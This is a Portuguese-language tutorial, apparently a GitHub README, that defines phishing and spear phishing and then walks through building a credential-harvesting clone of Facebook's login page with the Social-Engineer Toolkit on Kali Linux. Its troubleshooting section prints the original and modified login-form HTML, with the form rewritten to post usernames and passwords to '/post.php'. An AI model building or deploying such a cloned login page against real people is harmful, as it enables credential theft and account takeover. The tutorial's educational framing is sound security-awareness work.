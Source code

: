 # O que é Phishing?

De acordo com a America's Cyber Defense Agency:
> "Phishing é um tipo de ataque de engenharia social frequentemente usado para roubar dados de usuário, incluindo credenciais de login e números de cartão de crédito. Isso ocorre quando um atacante, se passando por uma entidade confiável, engana a vítima para abrir um email, mensagem instantânea ou mensagem de texto mal-intencionada que parece legítima. O objetivo é enganar a vítima para revelar informações sensíveis ou clicar em um link mal-intencionado que instala malware ou a direciona para um site fraudulento."

No geral, phishing é um tipo de ataque que se enquadra como engenharia social, no qual se visa roubar dados como credenciais. Este ataque pode ocorrer por diversos meios, como SMS, e-mail, links maliciosos, etc.

## Spear Phishing

De acordo com a Kaspersky:
> "Enquanto phishing é um termo geral para ataques cibernéticos realizados por e-mail, SMS ou chamadas telefônicas, alguns podem se perguntar como são chamados ataques de phishing direcionados. A resposta é spear phishing. Em termos mais simples, trata-se de ataques cibernéticos altamente personalizados que visam indivíduos ou empresas específicas. Normalmente, esses ataques são realizados por meio de e-mails de spear phishing que parecem legítimos para o destinatário e os incentivam a compartilhar detalhes confidenciais com o invasor. Embora o objetivo dos ataques de spear phishing geralmente seja roubar informações como credenciais de login ou informações de cartão de crédito, alguns são projetados para infectar dispositivos com malware. Frequentemente, hackers e hacktivistas patrocinados pelo governo são os perpetradores de golpes de spear phishing. No entanto, criminosos cibernéticos individuais também realizam esses ataques com a intenção de perpetrar roubo de identidade ou fraude financeira, manipulando preços de ações, cometendo espionagem ou roubando dados confidenciais para revendê-los a governos, empresas privadas ou outros indivíduos interessados."

## Ferramentas para Testes de Phishing

Para testes em escala, vale ressaltar que existem ferramentas mais apropriadas como o Gophish, Evilginx2, HiddenEye, King Phisher, etc. Mas para propósitos conceituais, iremos usar a ferramenta SET (Social-Engineer Toolkit) que já vem disponível em distros como o Kali Linux.

### Ferramentas Utilizadas

- **Kali Linux**
- **SET (Social-Engineer Toolkit)**

### Configurando o Phishing no Kali

*  **Acessar o Kali Linux:**
*	**Sudo su** 
*	**Setoolkit** 
*	**Social-Engineering Attacks**
*	**Website Attack Vectors**
*	**Credential Harvester Attack Method**
*	**Site Cloner**
*	**Ip-local (aonde as informações devem ser enviadas)**
*   **Url do site a ser clonado**

![foto 1](images/foto_1.png)
![foto 2](images/foto_2.png)
![foto 3](images/foto_3.png)
![foto 4](images/foto_4.png)
![foto 5](images/foto_5.png)
![foto 6](images/foto_6.png)
![foto 7](images/foto_7.png)
![foto 8](images/foto_8.png)

## troubleshooting
O codigo fonte da pagina do facebook é protegido, o que significa que le não é montado como um unico arquivo HTML, mas sim com varios scripts, assim nossa ferramenta não consegue clonar o codigo fonte da pagina de login do facebook.

![foto 9](images/foto_9.png)
![foto 10](images/foto_10.png)
Uma solução é criarmos nosso proprio template, para isso podemos usar a extensão SingleFile (firefox)

![foto 11](images/foto_11.png)
![foto 12](images/foto_12.png)
Após isso precisamos modificar algumas partes do código, para que fiquem compativeis com o SET

![foto 13](images/foto_13.png)

**codigo original**
```html
<form class=_9vtf data-testid=royal_login_form action="/login/?privacy_mutation_token=eyJ0eXBlIjowLCJjcmVhdGlvbl90aW1lIjoxNzIxMzM2NDE4LCJjYWxsc2l0ZV9pZCI6MzgxMjI5MDc5NTc1OTQ2fQ%3D%3D&amp;next" method=post id=u_0_2_fU><div><div class=_6lux><input type=text class="inputtext _55r1 _6luy" name=email id=email data-testid=royal_email placeholder="Email or phone number" autofocus aria-label="Email or phone number" value></div><div class=_6lux><div class="_6luy _55r1 _1kbt" id=passContainer><input type=password class="inputtext _55r1 _6luy _9npi" name=pass id=pass data-testid=royal_pass placeholder=Password aria-label=Password><div class="_9ls7 hidden_elem sf-hidden" id=u_0_3_QO></div></div></div></div><div class=_6ltg><button value=1 class="_42ft _4jy0 _6lth _4jy6 _4jy1 selected _51sy" name=login data-testid=royal_login_button type=submit id=u_0_5_Lx>Log In</button></div><div class=_6ltj><a href="https://www.facebook.com/recover/initiate/?privacy_mutation_token=eyJ0eXBlIjowLCJjcmVhdGlvbl90aW1lIjoxNzIxMzM2NDE4LCJjYWxsc2l0ZV9pZCI6MzgxMjI5MDc5NTc1OTQ2fQ%3D%3D&amp;ars=facebook_login&amp;next">Forgot password?</a></div><div class=_8icz></div><div class=_6ltg><a role=button class="_42ft _4jy0 _6lti _4jy6 _4jy2 selected _51sy" href=# ajaxify=/reg/spotlight/ id=u_0_0_6w data-testid=open-registration-form-button rel=async>Create new account</a></div></form>
```

***codigo modificado***
```html
<form class=_9vtf data-testid=royal_login_form action="/post.php" method=post id=u_0_2_fU><div><div class=_6lux><input type=text class="inputtext _55r1 _6luy" name=email id=email data-testid=royal_email placeholder="Email or phone number" autofocus aria-label="Email or phone number" value></div><div class=_6lux><div class="_6luy _55r1 _1kbt" id=passContainer><input type=password class="inputtext _55r1 _6luy _9npi" name=pass id=pass data-testid=royal_pass placeholder=Password aria-label=Password><div class="_9ls7 hidden_elem sf-hidden" id=u_0_3_QO></div></div></div></div><div class=_6ltg><button value=1 class="_42ft _4jy0 _6lth _4jy6 _4jy1 selected _51sy" name=login data-testid=royal_login_button type=submit id=u_0_5_Lx>Log In</button></div><div class=_6ltj><a href="#">Forgot password?</a></div><div class=_8icz></div><div class=_6ltg><a role=button class="_42ft _4jy0 _6lti _4jy6 _4jy2 selected _51sy" href=# id=u_0_0_6w data-testid=open-registration-form-button>Create new account</a></div></form>
```

Agora devemos selecionar a opção 3 "Custom import" (também precisamos salvar o template como "index.html" dentro do diretório que iremos expeficiar ao SET)

![foto 14](images/foto_14.png)
![foto 15](images/foto_15.png)
![foto 16](images/foto_16.png)
![foto 17](images/foto_17.png)
![foto 18](images/foto_18.png)
![foto 19](images/foto_19.png)

Foram efetuados testes tanto na rede local, quanto em rede externa. 
Vale resautar que a eficacia de pishings e engenharia social estão ligadas ao tanto de informações disponiveis, então também podemos assosiar a OSINT

Fontes:
 www.kaspersky.com.br/resource-center/definitions/spear-phishing
www.cisa.gov/news-events/news/avoiding-social-engineering-and-phishing-attacks
